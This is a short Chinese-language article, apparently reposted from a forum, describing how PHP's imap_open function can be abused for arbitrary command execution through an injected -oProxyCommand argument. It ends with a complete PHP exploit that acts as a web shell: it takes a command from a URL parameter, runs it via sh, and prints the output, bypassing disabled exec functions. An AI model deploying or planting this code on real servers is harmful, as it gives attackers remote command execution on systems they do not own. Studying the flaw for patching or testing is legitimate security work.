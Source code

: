 # 利用 imap_open函数任意命令执行

> 原文：[https://www.zhihuifly.com/t/topic/3467](https://www.zhihuifly.com/t/topic/3467)

## ***利用 imap_open函数任意命令执行***

**1\. 前提条件**

目标开启了imap扩展，并支持imap_open()函数

**2\. 基本原理**

PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。

**3\. exp**

```
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
    die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
imap_open('{' . $server . ':143/imap}INBOX', '', '');
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?> 
```